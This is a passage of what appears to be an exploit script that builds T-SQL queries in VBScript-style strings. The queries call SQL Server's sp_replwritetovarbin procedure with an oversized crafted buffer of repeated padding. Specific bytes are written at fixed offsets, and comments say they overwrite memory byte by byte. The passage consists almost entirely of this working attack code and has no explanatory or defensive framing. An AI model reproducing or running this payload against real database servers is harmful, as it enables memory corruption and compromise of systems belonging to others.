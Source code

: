 "    SET @val =  CHAR(0x43)					"&_
"  END								"&_
"  ELSE IF @counter = 299					"&_
"  BEGIN							"&_
"    SET @val =  CHAR(0x42)					"&_
"  END								"&_
"  ELSE IF @counter = 300					"&_
"  BEGIN							"&_


"     /* Second byte overwritten here */			"&_
"     SET @buf = @buf + CHAR(0x45) + char(0xc0) + char(0x4c) + CHAR(0x19) "&_
"     CONTINUE							"&_
"  END								"&_
"  SET @buf = @buf + @val					"&_
"END								"&_
"SET @buf = @buf + ''',''33'',''34'',''35'',''36'',''37'',''38'',''39'',''40'',''41'''   "&_
"EXEC master..sp_executesql @buf"							





// ########################################### THIRD QUERY
SQL3 = "DECLARE @buf NVARCHAR(4000),				"&_
"@val NVARCHAR(4),						"&_
"@counter INT							"&_
"SET @buf = '							"&_ 
"declare @retcode int,						"&_
"@end_offset int,						"&_
"@vb_buffer varbinary,						"&_
"@vb_bufferlen int						"&_  
"exec master.dbo.sp_replwritetovarbin 120, @end_offset output, @vb_buffer output, @vb_bufferlen output,''' "&_
"SET @val = CHAR(0x41)						"&_
"SET @counter = 0						"&_
"WHILE @counter &lt; 3021						"&_
"BEGIN								"&_
"  SET @counter = @counter + 1					"&_
"  IF @counter = 2900						"&_	 
"  BEGIN							"&_
"    SET @val =  CHAR(0x43)					"&_
"  END								"&_
"  ELSE IF @counter = 299					"&_
"  BEGIN							"&_
"    SET @val =  CHAR(0x42)					"&_
"  END								"&_
"  ELSE IF @counter = 300					"&_
"  BEGIN							"&_


"     /* Third byte overwritten here */				"&_
"     SET @buf = @buf + CHAR(0x46) + char(0xc0) + char(0x4c) + CHAR(0x19) "&_
"     CONTINUE							"&_
"  END								"&_
"  SET @buf = @buf + @val					"&_
"END								"&_
"SET @buf = @buf + ''',''33'',''34'',''35'',''36'',''37'',''38'',''39'',''40'',''41'''   "&_
"EXEC master..sp_executesql @buf"							
